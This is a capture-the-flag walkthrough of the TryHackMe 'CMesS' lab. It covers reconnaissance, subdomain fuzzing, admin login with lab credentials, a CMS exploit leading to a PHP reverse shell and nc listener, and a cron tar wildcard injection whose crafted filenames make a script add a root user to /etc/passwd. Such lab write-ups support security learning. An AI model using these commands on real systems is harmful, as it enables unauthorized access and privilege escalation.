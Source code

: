 # CMesS

**Room Link**: [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://cmess.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



Mostly junk

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>



## Fuzzing Domains

Fuzzed with a long subdomain list then filtered to reduce the amount of results. Only one stands out, dev.&#x20;

**Kali**

```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://cmess.thm/' -H "Host: FUZZ.cmess.thm" > results.txt

grep -v '290 W' results.txt
```

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

I added dev.cmess.thm to my host file and found this page

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We were able to login to the admin portal with these credentials

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: andre@cmess.thm
Password: KPFTN_f2yxe%
```

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/51569](https://www.exploit-db.com/raw/51569)



<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

The shell they use is bad so I upload a new one to get a reverse shell instead

**Shell Link:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)



<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



We find andre's password in a backup file

**Victim**

```
cd /opt
ls -lah
cat .password.bak 
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>





## TCP/21 - SSH

**Kali**

```
ssh andre@$VICTIM
Password: UQfsdCB7aAP6
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## Privlege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/andre/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>





